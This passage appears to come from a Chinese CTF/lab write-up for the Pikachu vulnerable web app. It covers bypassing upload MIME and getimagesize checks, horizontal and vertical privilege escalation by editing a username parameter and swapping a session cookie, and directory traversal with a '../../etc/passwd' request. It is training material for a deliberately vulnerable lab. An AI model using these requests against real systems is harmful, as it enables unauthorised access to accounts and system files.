![image-20251009184857544](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251010111933735.png)

#### MIME type

改Content-Type即可，

![image-20251009185011611](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251010111933736.png)

#### getimagesize

`getimagesize()`函数会通过读取文件头部的几个字符串(即文件头), 来判断是否为正常图片的头部

但是之前传的马已经考虑过了，所以内容不变

## Over Permission

#### 水平越权

登陆上kobe的账号，点击查看个人信息，发现用的是get请求

```
http://node.hackhub.get-shell.com:55190/vul/overpermission/op1/op1_mem.php?username=kobe&submit=点击查看个人信息
```

这个时候只要把username改成其他用户即可水平越权

```
http://node.hackhub.get-shell.com:55190/vul/overpermission/op1/op1_mem.php?username=lucy&submit=点击查看个人信息
```

#### 垂直越权

提示中有：`这里有两个用户admin/123456,pikachu/000000,admin是超级boss`

所以我们登上admin，然后正常搞到一个请求，之后再拿到pikachu账号的cookie：`5ff8a110e136bfab243a2fadb1521b84`，把cookie改一下进行发包

![image-20251009190422334](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251010111933737.png)

发现修改成功

![image-20251009190437404](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251010111933738.png)

## ../../

#### 目录遍历

知周所众，`../`可以退出一层目录，所以退出多层就能访问到根目录，从而实现目录遍历

```
http://node.hackhub.get-shell.com:55190/vul/dir/dir_list.php?title=jarheads.php
http://node.hackhub.get-shell.com:55190/vul/dir/dir_list.php?title=123
http://node.hackhub.get-shell.com:55190/vul/dir/dir_list.php?title=../../../../../../../etc/passwd
```
